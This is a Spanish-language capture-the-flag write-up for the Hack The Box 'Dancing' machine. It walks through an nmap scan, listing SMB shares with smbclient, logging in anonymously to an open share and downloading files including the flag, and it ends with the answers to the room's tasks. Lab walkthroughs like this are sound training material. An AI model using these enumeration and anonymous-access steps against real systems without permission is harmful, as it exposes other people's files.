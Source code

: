 ```yaml
---
title: Hack The Box - Starting Point - Tier 0 - Dancing Writeup
date: 2022-08-09 09:20:00 +0800
categories: ["Hack The Box", Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Este post forma parte de la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Dancing

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img04.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.186.250*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.186.250 -oN nmap_output
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:34 CEST
Nmap scan report for 10.129.186.250
Host is up (0.081s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-08-09T14:35:07
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: 3h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.54 seconds
```

Significado de las flags:

* `-A`&nbsp;: escaneo completo (aka agresivo) que ejecuta OS detection, version detection, script scanning y traceroute todo del tirón.
* `-oN`&nbsp;: imprime la salida en un fichero de texto con el nombre *nmap_output*

Tenemos el puerto *445/tcp* abierto (SMB) y con el servicio *microsoft-ds* escuchando.

Utilizamos **smbclient** para conectarnos y sacar un listado de los recursos disponibles con el comando ```-L```&nbsp;. Como no tenemos password, cuando nos la pide le damos al Enter.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient -L 10.129.186.250
Password for [WORKGROUP\ewan67]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.186.250 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Probamos a conectarnos a cada uno de los recursos que aparecen en el listado anterior a ver si alguno nos deja entrar sin contraseña. (Spoiler: el único que rula es el último).

Una vez dentro, brujuleamos y nos descargamos lo que nos parezca interesante.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient \\\\10.129.186.250\\WorkShares
Password for [WORKGROUP\ewan67]:
Try "help" to get a list of possible commands.
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1732440 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\>
```

En nuestro directorio de trabajo tendremos descargado el fichero *flag.txt* con la bandera correspondiente.

## Respuestas:

* <strong>Task 1</strong>: Server Message Block
* <strong>Task 2</strong>: 445
* <strong>Task 3</strong>: microsoft-ds
* <strong>Task 4</strong>: -L
* <strong>Task 5</strong>: WorkShares
* <strong>Task 6</strong>: get